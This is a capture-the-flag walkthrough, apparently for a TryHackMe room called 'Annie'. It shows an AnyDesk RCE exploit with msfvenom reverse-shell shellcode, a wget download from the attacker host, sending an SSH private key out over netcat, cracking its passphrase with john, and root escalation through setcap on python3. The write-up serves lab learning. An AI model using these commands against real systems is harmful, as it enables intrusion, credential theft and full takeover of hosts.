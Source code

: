 # Annie - Medium

* Add ```annie.thm``` to ```/etc/hosts``` and start scan - ```nmap -T4 -p- -A -Pn -v annie.thm```:

  * 22/tcp - ssh - OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
  * 7070/tcp - ssl/realserver

* When we visit <https://annie.thm:7070>, we get the error "SSL_ERROR_HANDSHAKE_FAILURE_ALERT"

* On further googling, we can see that port 7070 is running RealServer; in certain cases, it also mentions AnyDesk

* Since the room description does mention remote access, it could possibly be AnyDesk on port 7070

* We can install AnyDesk on our attacker box:

  ```sh
  sudo apt update

  sudo apt install -y gnupg2

  sudo sh -c 'echo "deb http://deb.anydesk.com/ all main" >/etc/apt/sources.list.d/anydesk.list'

  wget -qO - https://keys.anydesk.com/repos/DEB-GPG-KEY | sudo apt-key add -

  sudo apt -y update && sudo apt -y install anydesk
  # we get a dependency error here

  sudo apt -f install
  # problem still not fixed

  wget http://ftp.de.debian.org/debian/pool/main/g/gtkglext/libgtkglext1_1.2.0-11_amd64.deb

  sudo dpkg -i libgtkglext1_1.2.0-11_amd64.deb

  sudo apt -y install anydesk
  # installed

  anydesk
  ```

* We can try connecting to the target IP from AnyDesk but it does not work

* There is an [RCE exploit for AnyDesk 5.5.2](https://www.exploit-db.com/exploits/49613) - we can give this a try before moving forward:

  ```sh
  # according to the exploit, generate shellcode first
  msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.14.60.78 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode

  # edit the exploit script
  vim 49613.py
  # add the shellcode here

  # setup listener
  nc -nvlp 4444

  # execute script
  python 49613.py
  # this does not work

  python2 49613.py
  # this works
  # we get reverse shell

  whoami
  # annie

  # upgrade to stable shell
  which python3

  python3 -c 'import pty;pty.spawn("/bin/bash")'

  export TERM=xterm
  # Ctrl+Z

  stty raw -echo; fg
  # press Enter key twice

  pwd
  /home/annie

  ls -la
  # enumerate

  cat user.txt
  # get user flag

  # we can attempt basic enumeration using linpeas

  cd /tmp

  # fetch linpeas.sh from attacker machine hosting files
  wget http://10.14.60.78:8000/linpeas.sh

  chmod +x linpeas.sh

  ./linpeas.sh
  # this shows an unknown SUID binary
  ```

* We can also fetch the user's SSH key:

  ```sh
  # in reverse shell
  cd /home/annie/.ssh

  ls -la
  # we have id_rsa

  # in attacker machine
  nc -nvlp 5555 > id_rsa

  # in reverse shell
  /bin/nc 10.14.60.78 5555 -w 3 < id_rsa

  # in attacker machine
  # we can try to crack the key

  chmod 600 id_rsa

  ssh2john id_rsa > hash_id_rsa

  john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
  # this gives us the passphrase "annie123"
  ```

* We can now login as 'annie' via SSH:

  ```sh
  ssh annie@annie.thm -i id_rsa
  # use the cracked passphrase
  ```

* From ```linpeas.sh``` enumeration, we found an unknown SUID binary ```/sbin/setcap``` - this seems to be related to capabilities, for which we have exploits on [GTFOBins](https://gtfobins.github.io/gtfobins):

  ```sh
  ls -la /sbin/setcap

  /sbin/setcap

  strings -n 6 /sbin/setcap | less
  # it does mention capabilities

  # we can check Python capabilities exploit

  cp $(which python3) .
  # since we have python3 instead of python

  /sbin/setcap cap_setuid+ep python3

  ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
  # this gives us root shell
  # we can get root flag
  ```
